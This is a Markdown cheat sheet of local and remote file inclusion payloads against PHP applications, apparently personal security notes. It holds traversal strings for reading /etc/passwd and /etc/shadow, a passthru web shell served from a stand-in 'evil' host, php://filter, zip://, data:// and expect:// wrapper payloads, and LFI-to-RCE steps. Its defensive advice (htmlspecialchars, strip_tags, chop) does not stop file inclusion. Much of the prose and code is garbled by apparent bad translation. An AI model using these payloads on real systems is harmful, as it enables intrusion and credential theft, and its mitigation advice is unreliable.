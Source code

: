 ```yaml
---
tags:
  - web-app-security
---
```

- **manually using Burp and word list [lfi.txt](<https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/lfi.txt>)**
```xml
filename=....//....//....//etc/passwd
..%252f..%252f..%252fetc/passwd
/var/www/images/../../../etc/passwd -> validation of the start of the file 
../../../etc/passwd%00.png
```
### RFI/LFI Payload List
As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course, it takes a second person to have it. Now, this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give example codes in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something will appear like this.

```
http: //localhost/index.php? page = files.php
```

Now, if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder 
can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ _GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.
```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars ()
htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

#### Basic LFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Interesting files to check out :

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

#### Basic RFI (null byte, double encoding and other tricks) :

```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

#### LFI / RFI Wrappers :

LFI Wrapper rot13 and base64 - php://filter case insensitive.

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

Can be chained with a compression wrapper.
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

#### LFI Wrapper ZIP :

```
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

#### RFI Wrapper DATA with "" payload :

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

#### RFI Wrapper EXPECT :

```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

#### XSS via RFI/LFI with "" payload :

```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

#### LFI to RCE via /proc/*/fd :
 
 1. Upload a lot of shells (for example : 100)
 2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)
 
#### LFI to RCE via Upload :

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

#### References :

👉 [Testing for Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

👉 [Wikipedia](www.wikipedia.org/wiki/Local_File_Inclusion)

👉 [Remote File Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)

👉 [Wikipedia: "Remote File Inclusion"](http://en.wikipedia.org/wiki/Remote_File_Inclusion)

👉 [PHP File Inclusion](https://www.owasp.org/index.php/PHP_File_Inclusion)
